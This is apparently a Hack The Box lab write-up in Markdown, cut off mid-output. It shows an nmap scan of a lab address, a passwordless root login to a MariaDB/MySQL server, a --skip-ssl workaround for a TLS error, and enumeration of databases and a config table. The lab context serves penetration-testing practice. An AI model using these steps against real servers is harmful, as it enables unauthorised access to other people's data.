 ```sudo nmap -sC -sV 10.129.18.18```



Note that the MySQL clients usually authenticate with the service with a username/password combination.
However, it is essential to test for passwordless authentication, as there might be an intentional
misconfiguration in the service, which would allow personnel to easily log into the service during the
deployment stage of the project to easily interact with it before making it available to other colleagues.

 ``` mysql -h 10.129.18.18 -u root ``` this is the command to log in as a new user to a particular server without asking for authentication and creds. to login into the server\
 

 [MYSQL CHEATSHEET](https://www.mysqltutorial.org/mysql-cheat-sheet.aspx)


 ## Error or challenges faces.
 <img width="689" height="321" alt="image" src="https://github.com/user-attachments/assets/998970c0-0d34-4301-92e6-168b4f7a83c6" />
 
 ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it

## solution.
#### I was able to solve it using the 
#### ```mysql -h 10.129.95.232 -u root --skip-ssl```

______________________________________________________________________________________________________________________________

### Type 
___________
#### help or /? *** for the client side ***
#### help contents *** for the server side ***
______________________________________________________________________________________________________________________________
## the essential commands to be used.
<img width="863" height="261" alt="image" src="https://github.com/user-attachments/assets/645df297-5c08-4ae3-9a8b-3c74f89a8c03" />


### SHOW databases;
<img width="274" height="177" alt="image" src="https://github.com/user-attachments/assets/69ebb803-03ed-4d70-9ead-7fc12512bfb1" />

### USE htb;     *** database name ***
and show tables in the database
### SHOW tables; *** htb databases ***

then we can navigate into the contents of the table and database.
### using select.

```
MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |